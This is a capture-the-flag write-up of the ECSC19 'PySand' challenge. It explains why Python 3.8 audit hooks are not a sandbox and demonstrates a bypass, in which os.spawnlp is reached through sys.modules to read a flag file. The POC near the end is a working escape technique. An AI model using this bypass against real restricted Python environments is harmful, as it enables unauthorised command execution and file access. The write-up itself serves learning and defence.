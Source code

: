 # PySand (sandbox, python, audithook, sys.modules)
Python 3.8 introduced new audithook feature. You can read more about them in [PEP 578](https://www.python.org/dev/peps/pep-0578/) and [PEP 551](https://www.python.org/dev/peps/pep-0551/). The idea is to increase the ability to monitor suspicious actions taken by attackers. Both documents emphasize that this feature should not be used as prevention mechanism:

```
This proposal does not attempt to restrict functionality, but simply exposes the fact that the functionality is being used. Particularly for intrusion scenarios, detection is significantly more important than early prevention (as early prevention will generally drive attackers to use an alternate, less-detectable, approach). The availability of audit hooks alone does not change the attack surface of Python in any way, but they enable defenders to integrate Python into their environment in ways that are currently not possible.
```

Moreover if you are asking yourself how do we implement sandbox in python, then the answer is simple – we don't. Python [documentation](https://python-security.readthedocs.io/security.html) is very strict about this:

```
Sandbox
Don’t try to build a sandbox inside CPython. The attack surface is too large. Python has many introspection features, see for example the inspect module. Python also many convenient features which executes code on demand. Examples:

the literal string '\N{Snowman}' imports the unicodedata module
the code to log a warning might be abused to execute code
The good design is to put CPython into a sandbox, not the opposite.
```

## Back to the challenge
In the challenge we are given a simple and at first glance very restrictive sandbox. Every action which invokes audithook is being just stoped and SecurityError is raised.

```python3
#!/usr/bin/env python3.8
import sys

class SecurityError(BaseException):
    pass

def audithook(name, tupla):
    raise SecurityError("Hackers not allowed. Tried to perform {}".format(name))

sys.addaudithook(audithook)
```

You can read which actions invoke audit event [here](https://docs.python.org/3/library/audit_events.html#audit-events). The list is very short and so it is obvious that it doesn't even try to log every malicious action, but just the most suspicious ones. 

So I started looking at avaible functions in [sys](https://docs.python.org/3/library/sys.html) and [os.path](https://docs.python.org/3/library/os.path.html#module-os.path) and [builtins](https://docs.python.org/3/library/functions.html#built-in-funcs) modules. But I couldn't find anything useful which doesn't invoke audit event.

But then I though of [sys.modules](https://docs.python.org/3/library/sys.html#sys.modules). When python3 starts up it already imports more modules then our program. This is some optimization (I guess, I've never checked) mechanism. 
So lets check which modules have been loaded:

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
print(sys.modules)
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, '_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_thread': <module '_thread' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/app/Python-3.8.0b1/Lib/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/app/Python-3.8.0b1/Lib/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/app/Python-3.8.0b1/Lib/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/app/Python-3.8.0b1/Lib/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '__main__': <module '__main__' from '/app/sandbox.py'>, 'encodings.latin_1': <module 'encodings.latin_1' from '/app/Python-3.8.0b1/Lib/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/app/Python-3.8.0b1/Lib/abc.py'>, 'io': <module 'io' from '/app/Python-3.8.0b1/Lib/io.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from '/app/Python-3.8.0b1/Lib/stat.py'>, 'genericpath': <module 'genericpath' from '/app/Python-3.8.0b1/Lib/genericpath.py'>, 'posixpath': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, 'os.path': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, '_collections_abc': <module '_collections_abc' from '/app/Python-3.8.0b1/Lib/_collections_abc.py'>, 'os': <module 'os' from '/app/Python-3.8.0b1/Lib/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from '/app/Python-3.8.0b1/Lib/_sitebuiltins.py'>, 'site': <module 'site' from '/app/Python-3.8.0b1/Lib/site.py'>, '_locale': <module '_locale' (built-in)>, '_bootlocale': <module '_bootlocale' from '/app/Python-3.8.0b1/Lib/_bootlocale.py'>}
```

Nice! Definitely more then `sys`, `os.path` and `builtins`! What is interesting we can see that the `os` module has been imported as well.
By searching the [os](https://docs.python.org/3/library/os.html) documentation we can find many interesting functions such as `os.open`, `os.system` etc. Most of them are noisy and result in rasing audit event. However there are also function like `os.spawnlp` which we can use.

The last question is, how do we access the `os` module? If we try to call os.spawnlp we will fail. But the answer is very simple. Just reference `os` module via `sys.modules['os']`.

## POC

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
sys.modules['os'].spawnlp(sys.modules['os'].P_WAIT, '/bin/cat', 'cat', '/app/flag.txt')
ecsc19{Aud1tButDontTrust}
```



## References:
1) https://docs.python.org/3/library/audit_events.html#audit-events
2) https://daddycocoaman.dev/posts/bypassing-python38-audit-hooks-part-1/
3) https://www.python.org/dev/peps/pep-0551/
3) https://www.python.org/dev/peps/pep-0578/